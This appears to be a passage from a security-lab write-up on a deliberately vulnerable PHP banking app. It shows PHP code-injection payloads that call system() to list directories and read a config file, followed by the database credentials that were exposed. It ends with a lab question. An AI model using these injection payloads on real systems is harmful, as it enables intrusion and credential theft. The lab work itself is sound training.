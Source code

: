   

\`\`\`php

 '. system("pwd"); .' 

\`\`\` 

  

\`\`\`php

 '. system("ls"); .' 

\`\`\` 

  

\*\*Result\*\*

  

!\[code\_execution\_output\](images/task2/code\_execution\_output.PNG)

  
  

\- Found \`config.php\` file in \`/etc\` folder, now use the path to display out to the browser.

  

 \`\`\` php

 '. system("cat ../etc/config.php"); .' 

 \`\`\` 

  
  

 !\[database\_Details\](images/task2/6\_2.JPG)

  
  

\*\*Database Details found:\*\*

  
  

|  Identifier |  Value |

|---|---|

| Database Name  |  vbank |

| user  |  root |

| password  |  kakashi |

|ip| 127.0.0.1|

  
  
  
  
  

\_\_3. Explain how you can display the php settings of your webserver! Which information is relevant for the attacker?\_\_
